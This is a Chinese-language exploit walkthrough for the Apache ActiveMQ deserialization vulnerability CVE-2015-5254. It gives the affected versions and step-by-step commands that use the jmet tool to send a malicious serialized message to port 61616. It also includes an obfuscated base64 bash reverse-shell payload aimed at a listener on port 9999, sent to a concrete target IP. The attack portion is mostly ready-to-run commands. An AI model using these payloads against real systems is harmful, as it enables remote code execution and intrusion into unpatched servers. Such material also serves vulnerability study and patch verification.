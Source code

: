 # Apache ActiveMQ 反序列化漏洞 CVE-2015-5254

## 漏洞描述

Apache ActiveMQ是美国阿帕奇（Apache）软件基金会所研发的一套开源的消息中间件，它支持Java消息服务，集群，Spring Framework等。Apache ActiveMQ 5.13.0之前5.x版本中存在安全漏洞，该漏洞源于程序没有限制可在代理中序列化的类。远程攻击者可借助特制的序列化的Java消息服务（JMS）ObjectMessage对象利用该漏洞执行任意代码。

## 漏洞影响

> [!NOTE]
>
> Apache ActiveMQ 5.13.0之前5.x版本

## 漏洞复现

首先下载 jmet [下载链接](https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar)

```shell
wget https://github.com/matthiaskaiser/jmet/releases/download/0.1.0/jmet-0.1.0-all.jar
mkdir external
```

对目标发送一个生成**/tmp/vuln**的 payload

```
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "touch /tmp/vuln" -Yp ROME xxx.xxx.xxx.xxx 61616
```

访问 http://xxx.xxx.xxx.xxx:8161/admin/browse.jsp?JMSDestination=event 可以看到多了一条消息队列

![](http://wikioss.peiqi.tech/vuln/mq-3.png)

点击这个信息触发文件创建

![](http://wikioss.peiqi.tech/vuln/mq-4.png)

成功执行命令创建文件，也可以创建一个反弹shell的payload

```shell
bash -i >& /dev/tcp/xxx.xxx.xxx.xxx/9999 0>&1  (base64编码)
YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx

bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}

发送payload
java -jar jmet-0.1.0-all.jar -Q event -I ActiveMQ -s -Y "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC94eHgueHh4Lnh4eC54eHgvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -Yp ROME 172.21.231.183 61616
```

同样点击消息队列会触发命令执行

![](http://wikioss.peiqi.tech/vuln/mq-5.png)